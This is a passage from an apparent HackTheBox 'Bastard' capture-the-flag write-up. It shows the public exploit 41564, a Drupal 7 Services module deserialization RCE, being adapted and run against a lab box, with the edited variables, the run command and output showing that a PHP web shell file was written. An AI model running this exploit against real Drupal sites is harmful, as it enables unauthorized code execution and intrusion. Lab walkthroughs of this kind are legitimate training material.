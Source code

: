 When it is an off-the-shelf software, I usually don’t run a brute force attack on it because it probably has a lock out policy in place.

Next, run searchsploit.

```text
searchsploit drupal 7
```

Let’s view vulnerability number 41564.

```text
searchsploit -m 41564
```

It links to this [blog post](https://www.ambionics.io/blog/drupal-services-module-rce). It seems to be a deserialization vulnerability that leads to Remote Code Execution \(RCE\). Looking at the code, it we see that it visit the path _/rest\_endpoint_ to conduct the exploit.

```text
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```

That path is not found on the box, however, if we simply change it to _/rest_ it works!

![](https://miro.medium.com/max/695/1*-I6No76lBZgeKwKDQa1wJw.png)

So it is using the _Services_ module. We’ll use this exploit to gain an initial foothold on the box.

## Initial Foothold <a id="03d0"></a>

Make the following changes to the exploit code.

```text
$url = '10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';
```

There are also two comments that are not wrapped properly that you’ll need to fix.

Run the exploit.

```text
php 41564.php 
```

We get an “ Uncaught Error: Call to undefined function curl\_init\(\)” error message. That’s because we don’t have _php-curl_ installed on our kali machine.

```text
apt-get install php-curl
```

Now the exploit should work.

```text
root@kali:~/Desktop/htb/bastard# php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: 10.10.10.9/dixuSOspsOUU.php
```
